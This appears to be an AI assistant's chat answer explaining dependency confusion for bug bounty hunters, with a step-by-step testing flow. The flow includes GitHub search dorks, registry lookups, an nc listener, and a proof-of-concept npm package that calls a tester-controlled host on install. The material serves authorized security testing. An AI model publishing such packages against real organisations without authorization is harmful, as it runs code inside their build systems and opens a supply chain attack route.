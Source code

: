 In bug bounty, **dependency confusion** is a supply chain vulnerability where an attacker tricks a target’s software build process into downloading a **malicious package** from a public repository instead of the intended private/internal one.

---

### How it happens

1. A company uses private packages — e.g., `@company/utils` — stored in a private registry (like an internal npm, PyPI, or RubyGems server).
2. The build or CI/CD process is configured to check **both** the private registry and the public one.
3. If the package is **not found** in the private registry (or if the public registry is checked first), the package manager will fetch it from the public registry instead.
4. An attacker registers the **same package name** publicly and uploads a malicious version.
5. The build process **confuses** the public package for the private one and installs the attacker’s code.

---

### Real-world example

* Alex Birsan’s famous attack (2021) showed that by uploading packages with names matching internal dependencies of companies like Apple, Microsoft, and Tesla, he could execute code inside their networks — earning over **\$130,000 in bug bounties**.

---

### How bug bounty hunters find it

* Look for leaked `package.json`, `requirements.txt`, `Gemfile`, or `setup.py` in public repos.
* Identify dependency names that don’t exist on public package registries but could be registered.
* Attempt to publish a harmless proof-of-concept package to see if the company’s systems fetch it.

---

### How to prevent it

* Use **scoped/private namespaces** that can’t be registered publicly.
* Lock down package managers to only pull from internal registries.
* Enable checksum/hash verification for dependencies.
* Use a **package allowlist**.

---

If you want, I can give you a **step-by-step attacker flow** for testing dependency confusion safely in a bug bounty program so you know exactly how to set it up without breaking rules. That’s what a lot of researchers use to confirm the bug.


---

## **1. Recon & Identification**

* Search for exposed dependency files in the target’s public repos or assets:

  ```bash
  site:github.com <companyname> filename:package.json
  site:github.com <companyname> filename:requirements.txt
  site:github.com <companyname> filename:Gemfile
  ```
* Look for package names that **don’t exist** in public registries but could be public:

  * For **npm**:

    ```bash
    npm view <packagename>
    ```
  * For **PyPI**:

    ```bash
    pip search <packagename>
    ```
  * For **RubyGems**:

    ```bash
    gem search ^<packagename>$
    ```

---

## **2. Verify Vulnerability Potential**

* Confirm package **isn’t registered** on the public registry.
* Check if target uses a build system that **might pull from public registries** (npm, pip, etc.).
* Look for `.npmrc`, `pip.conf`, `.yarnrc`, or similar configs in repos — sometimes they reveal the registry order.

---

## **3. Prepare a Harmless PoC Package**

> ⚠ This must contain **non-malicious** code — just logging or making harmless HTTP requests to your controlled server.

* Example `index.js` for npm:

  ```javascript
  console.log("PoC dependency confusion test");
  require('https').get("https://your-poc-logger.com/?installed=true");
  ```
* Publish to the public registry with the same name as the private dependency.

---

## **4. Monitor for Callback**

* If the target’s build process fetches your package, your PoC server will log the request.
* Example listener:

  ```bash
  nc -lvnp 8080
  ```

  or a hosted logging service like `Burp Collaborator` or `interactsh`.

---

## **5. Document & Report**

* Include:

  * The **package name** targeted.
  * How you confirmed it wasn’t in public registry.
  * The PoC package code (harmless).
  * Evidence of callback (request headers, IP, timestamps).
* Remove the PoC package after reporting.

---

✅ **Golden Rules**

* Never include malicious payloads — only harmless proof-of-concepts.
* Only test in **authorized bug bounty programs** that allow dependency confusion testing.
* Always clean up after testing.

---

If you want, I can make you a **ready-to-run npm PoC package template** for dependency confusion, so you just swap the name and URL. That way you can run it in under 2 minutes.
